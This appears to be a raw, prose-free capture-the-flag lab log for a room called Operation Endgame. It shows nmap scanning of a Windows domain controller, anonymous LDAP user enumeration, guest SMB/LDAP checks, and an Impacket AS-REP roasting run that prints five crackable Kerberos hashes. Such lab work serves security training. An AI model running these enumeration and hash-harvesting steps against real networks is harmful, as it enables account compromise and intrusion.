



# OPERATION END-GAME



```jsx
                                                                                                                                                                                                                                         
┌──(root㉿Yoinkas)-[/home/yoinkas]
└─# nmap -sV -sC -vv -T4 -p- 10.64.181.217
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-12 13:40 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:40
Completed NSE at 13:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:40
Completed NSE at 13:40, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:40
Completed NSE at 13:40, 0.00s elapsed
Initiating Ping Scan at 13:40
Scanning 10.64.181.217 [4 ports]
Completed Ping Scan at 13:40, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:40
Completed Parallel DNS resolution of 1 host. at 13:40, 0.50s elapsed
Initiating SYN Stealth Scan at 13:40
Scanning 10.64.181.217 [65535 ports]
Discovered open port 135/tcp on 10.64.181.217
Discovered open port 139/tcp on 10.64.181.217
Discovered open port 53/tcp on 10.64.181.217
Discovered open port 443/tcp on 10.64.181.217
Discovered open port 445/tcp on 10.64.181.217
Discovered open port 80/tcp on 10.64.181.217
Discovered open port 3389/tcp on 10.64.181.217
Discovered open port 49670/tcp on 10.64.181.217
Discovered open port 49676/tcp on 10.64.181.217
Discovered open port 88/tcp on 10.64.181.217
Discovered open port 9389/tcp on 10.64.181.217
Discovered open port 49686/tcp on 10.64.181.217
Discovered open port 464/tcp on 10.64.181.217
Discovered open port 49675/tcp on 10.64.181.217
Discovered open port 49681/tcp on 10.64.181.217
Discovered open port 49719/tcp on 10.64.181.217
Discovered open port 49666/tcp on 10.64.181.217
Discovered open port 49667/tcp on 10.64.181.217
Discovered open port 3268/tcp on 10.64.181.217
Discovered open port 49669/tcp on 10.64.181.217
Discovered open port 636/tcp on 10.64.181.217
Discovered open port 49665/tcp on 10.64.181.217
Discovered open port 47001/tcp on 10.64.181.217
Discovered open port 49713/tcp on 10.64.181.217
Discovered open port 3269/tcp on 10.64.181.217
Discovered open port 389/tcp on 10.64.181.217
Discovered open port 49671/tcp on 10.64.181.217
Discovered open port 593/tcp on 10.64.181.217
Discovered open port 49664/tcp on 10.64.181.217
Discovered open port 49726/tcp on 10.64.181.217
Completed SYN Stealth Scan at 13:41, 47.12s elapsed (65535 total ports)
Initiating Service scan at 13:41
Scanning 30 services on 10.64.181.217
Service scan Timing: About 60.00% done; ETC: 13:42 (0:00:37 remaining)
Completed Service scan at 13:42, 54.15s elapsed (30 services on 1 host)
NSE: Script scanning 10.64.181.217.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:42
NSE Timing: About 99.86% done; ETC: 13:42 (0:00:00 remaining)
NSE Timing: About 99.98% done; ETC: 13:43 (0:00:00 remaining)
Completed NSE at 13:43, 66.77s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 7.45s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 0.00s elapsed
Nmap scan report for 10.64.181.217
Host is up, received timestamp-reply ttl 126 (0.035s latency).
Scanned at 2026-09-12 13:40:20 EDT for 176s
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http              syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec      syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-09-12 17:41:13Z)
135/tcp   open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/https?        syn-ack ttl 126
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-12T07:26:00
| Not valid after:  2028-05-12T07:35:59
| MD5:     c249 3bc6 fd31 f2aa 83cb 2774 bc66 9151
| SHA-1:   397a 54df c1ff f9fd 57e4 a944 00e8 cfdb 6e3a 972b
| SHA-256: 6915 c48a f18a bfee e8a2 084f 5088 8358 2582 11b5 f01a 7da0 3443 117b 8cbd 6031
| -----BEGIN CERTIFICATE-----
| MIIDaTCCAlGgAwIBAgIQUiXALddQ7bNA6YS8dfCQKTANBgkqhkiG9w0BAQsFADBH
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0xGTAX
| BgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjMwNTEyMDcyNjAwWhcNMjgwNTEy
| MDczNTU5WjBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZ
| FgN0aG0xGTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQC/NNh6IN5jNgejLjqq9/RVDR42kxE0UZvnW6cB1LNb
| 0c4GyNmA1h+oLDpz1DonC3Yhp9XPQJIj4ejN1ErCQFMAxW4Xcd/Gt/LSCjdBHgmR
| R8wItUOpOoXkQtVRUE4I7vlWzxBuCVo644NaNzbfqVj7M1/nCBjn/PPd2fX3etSX
| EsaI6bYcdmKRimC/94UP8qTs6Z+KGasXUmb7Sj8vscncY8lFLe9qREuiRrom5Q8A
| NySO4t8mtmqIHrBb8zTTZ9N/HxEOPDafCSTOjRhDVsOXVuWllTJujjSu+jJlBiF/
| aiXM7mOmsxH1rqCUK9mhZFSf/OhvgsvAq66sTBs1huE1AgMBAAGjUTBPMAsGA1Ud
| DwQEAwIBhjAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBQJcLfjxXJyk7BxDCNC
| pJb9vgIdEzAQBgkrBgEEAYI3FQEEAwIBADANBgkqhkiG9w0BAQsFAAOCAQEAmnUK
| Wj9AoBc2fuoVml4Orlg+ce7x+1IBTpqeKaobBx/ez+i5mV2U45MgPHPwjHzf15bn
| 0BnYpJUhlEljx7+voM+pfP/9Q21v5iXjgIcH9FLau2nqhcQOnttNj8I4aoDr5rRG
| fJJv+hAuNXxr/Fy5M7oghCpNqxseEU9OcgIPRHp6X/8bTtEYWaHnD3GS6uUR2jai
| PhReAcCPTbRwMRA3KsGRaBF3+PsIOL0JtCR+QGfOugPhUJFOU7w0dwbFmzfRcgKw
| bJhEy3o0FL5aqKVC823QJE7LosyLdtAqtZY7OgtT0Do7RZzdsZ1If0JmYmHTSRVz
| 8CvPpcCDp68aiTtqgA==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-09-12T17:43:08+00:00; -1s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds?     syn-ack ttl 126
464/tcp   open  kpasswd5?         syn-ack ttl 126
593/tcp   open  ncacn_http        syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 126
3268/tcp  open  ldap              syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: thm.local, Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 126
3389/tcp  open  ms-wbt-server     syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=ad.thm.local
| Issuer: commonName=ad.thm.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-11T17:25:38
| Not valid after:  2027-03-13T17:25:38
| MD5:     295a 36fa 5c0a 2515 f180 4418 e12c e00d
| SHA-1:   d774 8af5 5193 a70c b2b9 66b5 15b8 308b 5f24 3cf9
| SHA-256: 2bfe 3601 c5f1 b9cd 68b0 4fa9 ae58 6e68 24a5 d27b 733b 728a bb12 77ce ab37 9399
| -----BEGIN CERTIFICATE-----
| MIIC3DCCAcSgAwIBAgIQM48hZba7ILdPo3M0o5Q6jDANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxhZC50aG0ubG9jYWwwHhcNMjYwOTExMTcyNTM4WhcNMjcwMzEz
| MTcyNTM4WjAXMRUwEwYDVQQDEwxhZC50aG0ubG9jYWwwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQC2NHgclHGH/UkE5VxRA2BmiGALeT4uODoMI0s/MhJH
| dz2mkPDP4bfzXGs5RyMpSflBjpeVsgqzQtcBtGwvMxNSzAixU5sCVOYhY6kFuEjc
| rXbZEIOhfZaKL9DSDZeNXh8xA0AWfNWxs+o5/nlgF6k8aaFIKIUdgrMU2e1FRPdN
| N+Ab3lXs4wnqCbJk8/eCqt72AbCCUE1z+jpcB5sZYYULdxg7GCAwrRqMgptFB9HA
| MkMm6KSkGwnywroQpIJ1+5cEsvLfxvbSXtmzZ/zxj9H3kpRQ+OxsfnFU+EUMrU+7
| kLOzNVMUHNsQX7iVfSWUjViDtM753vYLKBpiLS0nYbFJAgMBAAGjJDAiMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
| gd5oA/+qnHhI6QLUpx4XrSmIVM1O9Cq9geEwrYW1JOnDkVRm0ayO8X9C3slT5zGK
| emVbVVBdsqC7j5Y2WJ2cSk8ihYLLvFJ5SuzQNqTzS3RolhWrjIqapnJkC0h7+w/Z
| ZIuPSp9UsbSbAqGpSzclD3DMlLRPgo0NvGtndlkzmneaQef5HMnJrWU/pZcWb2Mf
| 7NiYrVOluBFbrzxloe6adDBTiQZOpUUY3+ve/NyCUJ/zRytV0ZgsycOTdyc6M4rT
| oRBlA2K/BRrmYerHqJxHPTlWbC3mTz1xqZPxVdAIndrwZy34PPtjIfZ7agVd0tZY
| fPog8GOIgTWzZyZM5Q0Cvw==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-09-12T17:43:08+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: AD
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: ad.thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-09-12T17:42:03+00:00
9389/tcp  open  mc-nmf            syn-ack ttl 126 .NET Message Framing
47001/tcp open  http              syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  ncacn_http        syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49675/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49676/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49681/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49686/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49713/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49719/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
49726/tcp open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: AD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-09-12T17:42:06
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 57713/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23886/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38726/udp): CLEAN (Failed to receive data)
|   Check 4 (port 24634/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: -1s

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:43
Completed NSE at 13:43, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.34 seconds
           Raw packets sent: 66277 (2.916MB) | Rcvd: 65536 (2.622MB)

```

```jsx
                                                                                                                                                                                                                                          
┌──(root㉿Yoinkas)-[/home/yoinkas]
└─# ldapsearch -x -H ldap://10.67.128.6 -b "DC=thm,DC=local" -s sub "(objectClass=user)" sAMAccountName | grep sAMAccountName
# requesting: sAMAccountName 
sAMAccountName: Guest
sAMAccountName: AD$
sAMAccountName: DWAYNE_NGUYEN
sAMAccountName: BRANDON_PITTMAN
sAMAccountName: BRET_DONALDSON
sAMAccountName: VAUGHN_MARTIN
sAMAccountName: EVELYN_NEWMAN
sAMAccountName: SHERI_DYER
sAMAccountName: SUSANA_LOWERY
sAMAccountName: MIKE_TODD
sAMAccountName: JOSEF_MONROE
sAMAccountName: MARISOL_LANG
sAMAccountName: DIONNE_MCCOY
sAMAccountName: TAMRA_BULLOCK
sAMAccountName: KATHY_WYNN
sAMAccountName: LORENA_BENSON
sAMAccountName: FELIX_CHARLES
sAMAccountName: ROBERTO_MORIN
sAMAccountName: VICTOR_WALTERS
sAMAccountName: AL_HAMPTON
sAMAccountName: RAYMUNDO_HOLLOWAY
sAMAccountName: DUANE_DRAKE
sAMAccountName: CODY_ROY
sAMAccountName: ANDERSON_CARDENAS
sAMAccountName: ARIEL_SYKES
sAMAccountName: DION_SANTOS
sAMAccountName: LAVERN_GOODWIN
sAMAccountName: ROB_SALAZAR
sAMAccountName: RITA_HOWE
sAMAccountName: LETITIA_BERG
sAMAccountName: PRINCE_HOFFMAN
sAMAccountName: KURT_GILMORE
sAMAccountName: JASPER_GARDNER
sAMAccountName: YVONNE_NEWTON
sAMAccountName: SHELLEY_BEARD
sAMAccountName: SILAS_WALLS
sAMAccountName: AMOS_MCPHERSON
sAMAccountName: DIEGO_HARTMAN
sAMAccountName: DINO_CARSON
sAMAccountName: JOSHUA_MOSLEY
sAMAccountName: HESTER_MCMAHON
sAMAccountName: MARJORIE_QUINN
sAMAccountName: KERRY_JOHNSON
sAMAccountName: DIANE_ROWE
sAMAccountName: WALDO_HOUSTON
sAMAccountName: FANNY_RIVERA
sAMAccountName: VIOLET_MEJIA
sAMAccountName: MARVA_CALLAHAN
sAMAccountName: STELLA_RIVERS
sAMAccountName: 74820323SA
sAMAccountName: DERICK_BLEVINS
sAMAccountName: SPENCER_DODSON
sAMAccountName: MILAGROS_HOGAN
sAMAccountName: LIZA_DALE
sAMAccountName: ADOLPH_PUCKETT
sAMAccountName: RITA_BRADFORD
sAMAccountName: ISIAH_WALKER
sAMAccountName: 569434710SA
sAMAccountName: FAUSTINO_SCHROEDER
sAMAccountName: ANTON_HODGES
sAMAccountName: HILARIO_HAYNES
<SNIP>
```

```jsx
                                                                                                                                                                                                                                            
┌──(root㉿Yoinkas)-[/home/yoinkas]
└─# ldapsearch -x -H ldap://10.67.128.6 -b "DC=thm,DC=local" -s sub "(&(objectClass=user)(sAMAccountName=*SA))" description sAMAccountName
# extended LDIF
#
# LDAPv3
# base <DC=thm,DC=local> with scope subtree
# filter: (&(objectClass=user)(sAMAccountName=*SA))
# requesting: description sAMAccountName 
#

# 74820323SA, ITS, People, thm.local
dn: CN=74820323SA,OU=ITS,OU=People,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 74820323SA

# 569434710SA, Tier 1, Admin, thm.local
dn: CN=569434710SA,OU=Tier 1,OU=Admin,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 569434710SA

# 6643765058SA, Test, OGC, Tier 2, thm.local
dn: CN=6643765058SA,OU=Test,OU=OGC,OU=Tier 2,DC=thm,DC=local
sAMAccountName: 6643765058SA

# 8429491684SA, T0-Accounts, Tier 0, Admin, thm.local
dn: CN=8429491684SA,OU=T0-Accounts,OU=Tier 0,OU=Admin,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 8429491684SA

# 7063939681SA, Test, FIN, Tier 2, thm.local
dn: CN=7063939681SA,OU=Test,OU=FIN,OU=Tier 2,DC=thm,DC=local
sAMAccountName: 7063939681SA

# 3513161954SA, OGC, Stage, thm.local
dn: CN=3513161954SA,OU=OGC,OU=Stage,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 3513161954SA

# 5103729844SA, TST, People, thm.local
dn: CN=5103729844SA,OU=TST,OU=People,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 5103729844SA

# 9885253046SA, T0-Roles, Tier 0, Admin, thm.local
dn: CN=9885253046SA,OU=T0-Roles,OU=Tier 0,OU=Admin,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 9885253046SA

# 2974122699SA, Devices, ITS, Stage, thm.local
dn: CN=2974122699SA,OU=Devices,OU=ITS,OU=Stage,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 2974122699SA

# 6523676673SA, Devices, SEC, Stage, thm.local
dn: CN=6523676673SA,OU=Devices,OU=SEC,OU=Stage,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 6523676673SA

# 2302150644SA, ServiceAccounts, AZR, Tier 2, thm.local
dn: CN=2302150644SA,OU=ServiceAccounts,OU=AZR,OU=Tier 2,DC=thm,DC=local
sAMAccountName: 2302150644SA

# 575134123SA, Test, TST, Tier 2, thm.local
dn: CN=575134123SA,OU=Test,OU=TST,OU=Tier 2,DC=thm,DC=local
sAMAccountName: 575134123SA

# 101551296SA, FSR, Tier 2, thm.local
dn: CN=101551296SA,OU=FSR,OU=Tier 2,DC=thm,DC=local
sAMAccountName: 101551296SA

# 5998682031SA, TST, People, thm.local
dn: CN=5998682031SA,OU=TST,OU=People,DC=thm,DC=local
description: Tier 1 User
sAMAccountName: 5998682031SA

# search reference
ref: ldap://ForestDnsZones.thm.local/DC=ForestDnsZones,DC=thm,DC=local

# search reference
ref: ldap://DomainDnsZones.thm.local/DC=DomainDnsZones,DC=thm,DC=local

# search reference
ref: ldap://thm.local/CN=Configuration,DC=thm,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 18
# numEntries: 14
# numReferences: 3
                                                    
```

```jsx
                                                                                                                                                                                                                                            
┌──(root㉿Yoinkas)-[/home/yoinkas]
└─# /home/yoinkas/HACKER/TOOLS/impacket/examples/GetNPUsers.py thm.local/ -dc-ip 10.67.128.6 -request 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Name            MemberOf  PasswordLastSet             LastLogon  UAC      
--------------  --------  --------------------------  ---------  --------
SHELLEY_BEARD             2024-05-10 13:09:47.265340  <never>    0x410200 
ISIAH_WALKER              2024-05-10 13:09:48.577850  <never>    0x410200 
QUEEN_GARNER              2024-05-10 13:09:50.046582  <never>    0x410200 
PHYLLIS_MCCOY             2024-05-10 13:09:52.577869  <never>    0x410200 
MAXINE_FREEMAN            2024-05-10 13:10:12.327933  <never>    0x410200 

$krb5asrep$23$SHELLEY_BEARD@THM.LOCAL:24f67ecdb5b7b546018aacf792498c88$c92b037c3423b88b8f7daf29e01f1185facfbd3c4c06bdae7e92bdfe0df83ef34d528ff306953e37c3cdc901903f8111dd30a395e55681223b22810040fe84a2e98e37278b701f9264e182d52b3c6e6f1602d6a43efdb1270b897a757983368076ebecfa849f943363cd6da398686a87a6d36b9e651597f4180b48602471f3b8d15cab0e07d3f91ac87fe42246abd50d888de02a80cbffc755878f56f3a46179fb7af9941c57eb0d308fbe5256c2b145370569543553e21feed154fb23db3bfc974c724b187f51553184137ba003e139198471b2f90c30cd260429825aabe2a89ffa0dc26509
$krb5asrep$23$ISIAH_WALKER@THM.LOCAL:529641b070b92c2407b269ac7f8d76c0$0a02b90be906e790e83b0094beae695ef4c121d9635d49b723443cb437a4896fc025e6fa17e371e31fc466ac412abee48a6efb1e8f5c03c6d8730c5fabf47826518c66f5477bc20f2bf9496ac3258de7a484f29e58ef7d12b8ad8faa68056fbf4c0fad64b0b9be0f80b96f001da64190bf3985505f19882a6925f282bef072021942b3e67d70bc485102c3b6cbcc800b47c6e8d1e56c3a481492d13b48f72dd9c817a2964721a2a12d1ec33a06fa347fa8e1da51d5b0e2a86c9dd67a905e9508fb93bcce9ddea4317aeebf913c478b36e8a0b8cb661fddedae773d38213bb64103b37a11129c
$krb5asrep$23$QUEEN_GARNER@THM.LOCAL:b4170ba804fe91fb03101e31790631be$e6bc872b80b522fd14d50cb08a0f89440f9802782892e23c58d1480da787ffd9168a30db51cadb3e30c7f1a88519285096a05a67987d95b1bfb5472c10d9dac32307c1c1f7135a1ff5414b6e392f1e76c164c6289879b26efa8303d3c5221030556dc3f0744560c7ebd057e8da3a329efc4a64087ab7e9c4e1b26257506987625f8213e1d704c3cfe44a762d7c453a4c7b57cdde1b30e1c58821c77137ac9f4c5f14bc69a950b7257c01ed5ccc95f754cced28f74c6ed31a92d5e5aea2c7916915f01bfe0597d58d6fa589f6a32c831c5a1c6d112502b911fdb037ca6566fa75e4a29381532c
$krb5asrep$23$PHYLLIS_MCCOY@THM.LOCAL:069ad8c37b6af4ed6f557657b9097b98$1fb1f0c70fea1b21ca6a1aac1cfae222334eae0f9ff7452c75344e1ff9ab626a0e1e8261b924043fd916a403e63dc0d44d9716012352f4afe9fd67507841e7fec87da49f3125a65389612f26ffd2a54a70448f936e40ddc74a5a5ad98c6d21ce42d06466fb3ea0b39a4e0d27b1a7c4c17970751823c666523b4ac60f802d3d1a4e6b199e9f380016f0974a3ed945ecec057dbb7f6292689326e88f0ccf1564b127b47bffb65a455b5cd5bf5cdc8b7b07e2df04b14ea9d55a3ac027d65a1309303fa6fa0c208dd004e29a1ee53277dfbb766e2c63bca146d42828517de922806bd4fdcb5a483b
$krb5asrep$23$MAXINE_FREEMAN@THM.LOCAL:44888dea144fb11a32ca942599ed8da8$386fbfb5c10477d3306a822bb47a88f02e84b42b9a2c642462ecca07d375c5925b3fdedaa33e8ec2e43f11159aff3a2644e9472f945ec351b9539e1acb4fe6f243fba1e18ba43e46b74c4db0e60ce4fb777b168c94f5eea422432d3ec481b755ba900106dd4615ccde6b4f5109b466d5e0bb03fcf86af0467d147ed0886b433db4818313f72c57977cdfa8e6581e2c718a377382eb54477b76ffe3c9b7537a8b67d068234fcb69fc46526f49da5d9a80ebf08a5b31ebf2c4a160bb2a7dceb255d77209073f36703714b19141e4f48c01d62334004fca84f124e00006052d18aa839ee8451a3e
                                                                    
```

```jsx
                                                                                                                                                                                                                                        
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc smb 10.67.128.6 -u guest -p ''
SMB         10.67.128.6     445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.67.128.6     445    AD               [+] thm.local\guest: 
                                                                                                                                                                                                                                            
┌──(root㉿Yoinkas)-[/home/yoinkas/THM/MAChines/Operation-Endgame]
└─# nxc ldap 10.67.128.6 -u 'guest' -p ''
LDAP        10.67.128.6     389    AD               [*] Windows 10 / Server 2019 Build 17763 (name:AD) (domain:thm.local) (signing:None) (channel binding:No TLS cert) 
